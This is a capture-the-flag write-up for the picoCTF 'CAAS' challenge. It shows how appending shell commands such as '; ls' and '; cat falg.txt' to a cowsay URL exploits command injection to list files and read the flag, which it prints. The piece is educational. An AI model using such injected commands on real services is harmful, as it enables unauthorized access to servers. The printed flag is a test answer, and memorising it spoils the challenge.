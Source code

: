 # CAAS
## Description:
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solution:
Following the link takes you to a website that displays:
```
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```
Replacing '{message}' part of the URL takes you to a webpage that looks like this:
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
Using this property, you can list down the files using the CLI command ls by typing something like the following in the URL bar:
```
https://caas.mars.picoctf.net/cowsay/hello;%20ls
```
The resulting webpage looks like this:
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
 Now that we have located the flag file- falg.txt, we can use the 'cat' command to print out the contents of falg.txt
 ```
 https://caas.mars.picoctf.net/cowsay/hello; cat falg.txt
 ```
 ## Answer
 The website prints out the message:
 ```
 picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
 ```

